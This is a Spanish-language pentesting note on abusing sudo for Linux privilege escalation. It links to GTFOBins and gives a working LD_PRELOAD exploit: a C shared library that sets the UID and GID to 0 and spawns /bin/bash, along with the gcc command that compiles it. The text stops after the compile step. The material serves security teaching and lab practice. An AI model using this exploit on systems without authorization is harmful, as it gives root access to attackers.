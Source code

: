 
# Abusing SUDO Privileges

Es posible abusar de distintos binarios del sistema operativo cuando se pueden ejecutar en el contexto de otro usuario mediante SUDO, o privilegios SUID (que serán explicados más adelante).

Para esto puedes checar el sitio **GTFOBins** donde se describen las distintas formas que existen para abusar de los mismos y explotarlos: 

- [https://gtfobins.github.io/](https://gtfobins.github.io/)

Por otra parte puede checar algunas hojas de trucos donde se describen formas comunes de escalar privilegios mediante SUDO:

- [Abusing SUDO (Linux Privilege Escalation) - Touhid's Blog](https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/)

## Privilege Escalation vía SUDO + LD_PRELOAD

A través de la variable de entorno LD_PRELOAD se pueden especificar los binarios de las bibliotecas compartidas, las cuales son cargadas en memoria antes de que un binario sea ejecutado. Estas serán ejecutada antes de la ejecución del programa real que se invocó. De esta manera, si un usuario es capaz de modificar dicha variable de entorno, será capaz de utilizarla para escalar privilegios en el sistema.

Para esto lo primero que debemos hacer es checar si tenemos la capacidad de modificar la variable de entorno por medio del comando `sudo -l`.

Si en el output del comando visualizamos `env_keep+=LD_PRELOAD`, es porque podemos explotar la vulnerabilidad.

Para realizarlo, bastaría con computar un binario que ejecute lo siguiente: por una parte eliminar el valor actual de la variable `LD_PRELOAD`, establecer el UID y GID en `0`, o sea el del usuario `root` y,  para finalizar, que la instrucción a ejecutar sea lanzar una shell `/bin/bash`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

Este archivo debe ser compilado para obtener el binario como tal. Para ello podemos ejecutar la siguiente instrucción, utilizando el compilador `gcc`:

```bash
gcc -fPIC -shared -o <binary-name>.so <payload-name>.c -nostartfiles

# Example
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

